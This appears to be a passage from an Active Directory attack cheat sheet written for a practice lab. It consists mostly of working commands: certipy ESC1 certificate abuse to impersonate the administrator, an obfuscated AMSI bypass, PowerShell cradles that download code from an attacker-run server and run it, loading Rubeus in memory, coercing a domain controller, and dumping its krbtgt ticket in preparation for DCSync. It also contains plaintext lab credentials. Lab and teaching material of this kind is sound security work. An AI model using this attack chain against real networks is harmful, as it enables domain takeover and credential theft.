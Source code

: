 ## Certificate
### Pass The Certificate
```
certipy req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template ESC1 -ca ESSOS-CA -upn administrator@essos.local
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

# Delegations
## Unconstrained delegation
- Connect 
```
xfreerdp /d:north.sevenkingdoms.local /u:eddard.stark /p:'FightP3aceAndHonor!' /v:192.168.56.11 /cert-ignore
```
- From there we will bypass AMSI and launch Rubeus in memory 
- Prepare our server containing Rubeus.exe and our AMSI bypass
`python3 -m http.server 8080`

- On the RDP session bypass AMSI 
```
$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)
(new-object system.net.webclient).downloadstring('http://192.168.56.1:8080/amsi_rmouse.txt')|IEX
```

- Now launch Rubeus in memory with execute assembly. First we will list the available tickets :
```
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.56.1:8080/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data);
[Rubeus.Program]::MainString("triage");
```

- And now force a coerce of the DC kingslanding to the DC winterfell.
`python3 coercer.py -u arya.stark -d north.sevenkingdoms.local -p Needle -t kingslanding.sevenkingdoms.local -l winterfell`

- We look on the triage again :
`[Rubeus.Program]::MainString("triage")`

- Now the tgt of kingslanding should be present

- To extract it (relaunch coercer and 1 sec later launch the following dump command):
`[Rubeus.Program]::MainString("dump /user:kingslanding$ /service:krbtgt /nowrap");`

- We now have the TGT of the domain controller. Let’s continue on linux to pass the ticket and launch dcsync with secretdump by 
1. copying the ticket without space and return line
2. converting the ticket to ccache
3. use the kerberos ticket and launch secretdump
